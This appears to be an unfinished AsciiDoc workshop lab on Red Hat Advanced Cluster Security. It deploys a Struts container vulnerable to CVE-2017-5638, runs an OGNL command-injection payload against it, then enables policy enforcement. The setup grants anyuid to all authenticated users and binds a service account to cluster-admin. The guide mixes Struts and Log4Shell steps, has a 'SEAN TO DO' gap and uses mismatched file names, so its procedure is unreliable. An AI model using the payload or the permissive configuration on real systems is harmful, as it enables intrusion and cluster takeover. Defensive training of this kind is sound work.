




==  Black Hat - RHACS Struts RCE Vulnerability Demonstration 

In this lab, you demonstrate how to quickly stop shells being spawned from the `struts` vulnerabilities Red Hat^(R)^ Advanced Cluster Security for Kubernetes (RHACS). 

.Goals
* Prevent the execution of RCE exploit

== Ensure a clean environment

. Start by ensuring you have a clean lab environment. Run the following command to reset any changes others may have made.

[source,sh,subs="attributes",role=execute]
----
oc delete project struts-rce
rm ~/vuln-dep.yaml
----

== Deploy the struts infected container image

The next step is to deploy the log4shell laden container image to the OpenShift cluster. 

. Procedure
. Start by creating a new project and deploying a vulnerable struts application. 

[source,sh,subs="attributes",role=execute]
----
oc new-project struts-rce
----

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
Now using project "struts-rce" on server "http://api.cluster-fdg9s.fdg9s.sandbox674.opentlc.com:6443".

You can add applications to this project with the 'new-app' command. For example, try:

    oc new-app rails-postgresql-example

to build a new example application in Ruby. Or use kubectl to deploy a simple Kubernetes application:

    kubectl create deployment hello-node --image=k8s.gcr.io/serve_hostname
----

[start=2]
. Apply a policy to allow privileged containers: 
[source,sh,subs="+macros,role=execute"]
----
oc adm policy add-scc-to-group anyuid system:authenticated
----

[start=3]
. Next, deploy the vulnerable application by creating and applying the following deployment YAML file:

[source,sh,subs="attributes",role=execute]
----
cat << EOF >vuln-dep.yaml
apiVersion: v1
kind: Namespace
metadata:
  name: struts-rce
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: 'web'
  namespace: struts-rce
  labels: 
    app: web
spec:
  replicas: 1
  selector:
    matchLabels:
      app: web
  template:
    metadata:
      labels:
        app: web
    spec:
      containers:
        - image: "quay.io/rh_ee_srickerd/apache-struts2-cve-2017-5638:latest"
          imagePullPolicy: Always
          name: web
          ports:
          - name: http
            containerPort: 8080
            protocol: TCP
      serviceAccountName: web-service-account
      restartPolicy: Always
---
apiVersion: v1
kind: Service
metadata:
  name: 'web'
  namespace: struts-rce
  labels:
    app: web
spec:
  type: "NodePort"
  ports:
  - name: http
    port: 80
    nodePort: 30004
    protocol: TCP
    targetPort: 8080
  selector:
    app: "web"
---
apiVersion: v1
kind: ServiceAccount
metadata:
  name: web-service-account
  namespace: struts-rce
---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: web-role
  namespace: struts-rce
rules:
  - apiGroups:
        - ""
    resources:
      - secrets
    verbs: ["*"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: web-rolebinding
  namespace: struts-rce
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: Role
  name: web-role 
subjects:
- kind: ServiceAccount
  name: web-service-account
---
apiVersion: v1
kind: Secret
metadata:
  name: connectionstrings
  namespace: struts-rce
data:
  sql: U2VydmVyPW15c3Fsc2VydmVyO0RhdGFiYXNlPWRiO1VzZXIgSWQ9YWRtaW47UGFzc3dvcmQ9UEBzc3dvcmQ7
---
apiVersion: v1
kind: ServiceAccount
metadata:
  name: admin-service-account
  namespace: struts-rce
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: admin-clusterrolebinding
  namespace: struts-rce
subjects:
- kind: ServiceAccount
  name: admin-service-account
  namespace: struts-rce
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
---
apiVersion: v1
kind: Secret
metadata:
  name: admin-service-account-token
  namespace: struts-rce
  annotations:
    kubernetes.io/service-account.name: admin-service-account
type: kubernetes.io/service-account-token
---
apiVersion: v1
kind: Secret
metadata:
  name: web-service-account-token
  namespace: struts-rce
  annotations:
    kubernetes.io/service-account.name: web-service-account
type: kubernetes.io/service-account-token
EOF
----

[start=4]
. Deploy the struts deployment into your new projecct by using the 'oc' CLI

[source,bash,role="execute"]
----
oc create -f ./vuln-dep.yaml
----

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
[lab-user@bastion ~]$ oc create -f ./vuln-dep.yaml
deployment.apps/web created
----

[start=5]
. Ensure that the application was deployed without issues. 

[source,bash,role="execute"]
----
oc get pods -l deployment=web -A
----

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
[lab-user@bastion ~]$ oc get pods -n struts-rce
NAME                  READY   STATUS    RESTARTS   AGE
web-95f4544df-9s9n5   1/1     Running   0          56s
----

IMPORTANT: For the last part of this section, check to make sure that the struts vulnerability is in the container with a quick CLI scan using the roxctl CLI

[start=6]
. Execute the following command in the terminal to ensure the struts vulnerability is present.

[source,bash,role="execute"]
----
roxctl --insecure-skip-tls-verify -e "$ROX_CENTRAL_ADDRESS:443" image scan --image=quay.io/rh_ee_srickerd/apache-struts2-cve-2017-5638:latest --force -o table --severity=CRITICAL
----

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
Scan results for image: quay.io/rh_ee_srickerd/apache-struts2-cve-2017-5638:latest
(TOTAL-COMPONENTS: 5, TOTAL-VULNERABILITIES: 14, LOW: 0, MODERATE: 0, IMPORTANT: 0, CRITICAL: 14)

+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
|                  COMPONENT                  | VERSION |       CVE        | SEVERITY |                       LINK                        |           FIXED VERSION            |
+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
|    commons-fileupload:commons-fileupload    |  1.2.2  | CVE-2016-1000031 | CRITICAL | https://nvd.nist.gov/vuln/detail/CVE-2016-1000031 |               1.3.3                |
+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
|                 log4j:log4j                 | 1.2.17  |  CVE-2022-23307  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2022-23307  |        lastAffected=1.2.17         |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2022-23305  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2022-23305  |        lastAffected=1.2.17         |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2019-17571  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2019-17571  | introduced=1.2&lastAffected=1.2.17 |
+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
| org.apache.struts:struts2-convention-plugin | 2.3.12  |  CVE-2016-6795   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2016-6795   |               2.3.31               |
+---------------------------------------------+         +------------------+----------+---------------------------------------------------+------------------------------------+
|       org.apache.struts:struts2-core        |         |  CVE-2016-4436   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2016-4436   |               2.3.29               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2021-31805  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2021-31805  |               2.5.30               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2019-0230   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2019-0230   |               2.5.22               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2016-3082   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2016-3082   |              2.3.20.3              |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2020-17530  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2020-17530  |               2.5.26               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2017-5638   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2017-5638   |               2.3.32               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2023-50164  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2023-50164  |               2.5.33               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2017-12611  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2017-12611  |               2.3.34               |
+---------------------------------------------+         +------------------+----------+---------------------------------------------------+------------------------------------+
|  org.apache.struts:struts2-struts1-plugin   |         |  CVE-2017-9791   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2017-9791   |        lastAffected=2.3.37         |
+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
WARN:   A total of 14 unique vulnerabilities were found in 5 components
----

NOTE: You can see that a number of CVE's, including CVE-2023-50164 and  can be found in the quay.io/rh_ee_srickerd/apache-struts2-cve-2017-5638:latest container image that your just deployed.

=== Leverage the remote code execution in the struts vulnerability
[start=7]
Create the attack script: 
[source,sh,subs="attributes",role=execute]
----
cat << EOF >attack.py
import http.client
import urllib.error
import urllib.parse
import urllib.request

def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
EOF
----

[start=8]
And launch the attack! 
[source,sh,subs="attributes",role=execute]
----
python3 attack.py http://api.cluster-fdg9s.fdg9s.sandbox674.opentlc.com:30004 "whoami"
----

Great job so far!
image::https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExbnY0NDA0ZnJqNXh6cGNqeHNxZGd5Zm5qMnlpOHhrbm1hY2pwcG5ydSZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/p18ohAgD3H60LSoI1C/giphy.gif[link=self, window=blank, width=100%, class="center"]

== Red Hat^(R)^ Advanced Cluster Security (RHACS) web console 

Red Hat Advanced Cluster Security for Kubernetes is a Kubernetes-native security platform that equips you to build, deploy, and run cloud-native applications with more security. The solution helps protect containerized Kubernetes workloads in all major clouds and hybrid platforms, including Red Hat OpenShift, Amazon Elastic Kubernetes Service (EKS), Microsoft Azure Kubernetes Service (AKS), and Google Kubernetes Engine (GKE).

=== Access the RHACS web console.

*Procedure*

[start=1]
. Log into the RHACS console at `{acs_route}`
. Click the "Advanced" button in your browser

 

[start=3]
. Click "Proceed to {acs_route}"

[start=4]
. Enter the RHACS credentials 

[cols="1,1"]
|===
*RHACS Console Username:* | {acs_portal_username} |
*RHACS Console Password:* | {acs_portal_password} |
|===

=== Find the struts vulnerability in RHACS dashboard. 

The next step is to use the ACS dashboard to locate the Log4shell vulnerability. The following gif will showcase how to locate the vulnerability witht the exact steps outlines below. 

NOTE: CVE-2021-44228 & CVE-2021-45046 can both be used to find the log4shell vulnerabiulity in the dashboard. 

image:../assets/images/misc-log-1.gif[]

. Procedure

SEAN TO DO

=== Set Deploy Time Enforcement to On

You must enable deploy-time enforcement for the `Log4Shell: log4j Remote Code Execution vulnerability` policy.

.Procedure
. Navigate to *Platform Configuration -> Policy Management* and find the policy called `Log4Shell: log4j Remote Code Execution vulnerability`.
+
TIP: To find the policy quickly, type `Policy` followed by `Log4Shell` into the filter bar on the *Policy Management* page.

// image::images/11_log4shell_04.png[]

. Select the policy by clicking the three dots to the right and select `Edit policy`.

image::../assets/images/11_log4shell_05.png[]

. Use the `Policy Behavior` tab and enable runtime enforcement by clicking the `inform and enforce button` under `Response Method`
. Scroll down to `Configure enforcement behavior` and switch both the `Enforce on Build` and `DEnforce on Deploy` selectors to on. 

image::../assets/images/11_log4shell_06.png[]

. Click *Review Policy* on the left and *Save*.

+
. Redeploy the vulnerable image
+
[source,bash,role="execute"]
----
oc create -f ./deploy.yaml
----
+
. Examine the output and note that the Deployment failed to start:
+

.Sample Output
[source,texinfo]
----
Error from server (Failed currently enforced policies from StackRox): error when creating "./deploy.yaml": admission webhook "policyeval.stackrox.io" denied the request:
The attempted operation violated 1 enforced policy, described below:

Policy: Log4Shell: log4j Remote Code Execution vulnerability
- Description:
    ↳ Alert on deployments with images containing the Log4Shell vulnerabilities
      (CVE-2021-44228 and CVE-2021-45046). There are flaws in the Java logging library
      Apache Log4j in versions from 2.0-beta9 to 2.15.0, excluding 2.12.2.
- Rationale:
    ↳ These vulnerabilities allows a remote attacker to execute code on the server if
      the system logs an attacker-controlled string value with the attacker's JNDI
      LDAP server lookup.
- Remediation:
    ↳ Update the log4j libary to version 2.16.0 (for Java 8 or later), 2.12.2 (for
      Java 7) or later. If not possible to upgrade, then remove the JndiLookup class
      from the classpath: zip -q -d log4j-core-*.jar
      org/apache/logging/log4j/core/lookup/JndiLookup.class
- Violations:
    - CVE-2021-44228 (CVSS 10) (severity Critical) found in component 'log4j' (version 2.14.1) in container 'log4shell'
    - CVE-2021-45046 (CVSS 9) (severity Critical) found in component 'log4j' (version 2.14.1) in container 'log4shell'

In case of emergency, add the annotation {"admission.stackrox.io/break-glass": "ticket-1234"} to your deployment with an updated ticket number
----
+
[CAUTION]
====
You might get a different message, detailed below.
RHACS has not yet scanned the image, and is blocking unscanned images from deployment.
If that is the case, simpley run the `oc create -f ./deploy.yaml` again and it will have scanned the image.
Now the deployment will trigger the log4j violations above.
----
Error from server (Failed currently enforced policies from StackRox): error when creating "./deploy.yaml": admission webhook "policyeval.stackrox.io" denied the request:
The attempted operation violated 1 enforced policy, described below:

Policy: Images with no scans
- Description:
    ↳ Alert on deployments with images that have not been scanned
- Rationale:
    ↳ Without a scan, there will be no vulnerability information for this image
- Remediation:
    ↳ Configure the appropriate registry and scanner integrations so that StackRox can
      obtain scans for your images.
- Violations:
    - Image in container 'log4shell' has not been scanned

In case of emergency, add the annotation {"admission.stackrox.io/break-glass": "ticket-1234"} to your deployment with an updated ticket number

----
====

== View Violations Report

A complete record of the event can be found on the *Violations* page.

.Procedure
. Navigate to the *Violation* page from the left navigation bar.
. Use the Filter Bar to find the `Policy: Log4Shell: log4j Remote Code Execution vulnerability` and select the policy name.
. Explore the list of the violation events.

== Summary

You enabled Log4Shell deploy-time policy enforcement, and verified that the policy prevented the `log4shell` container from running.

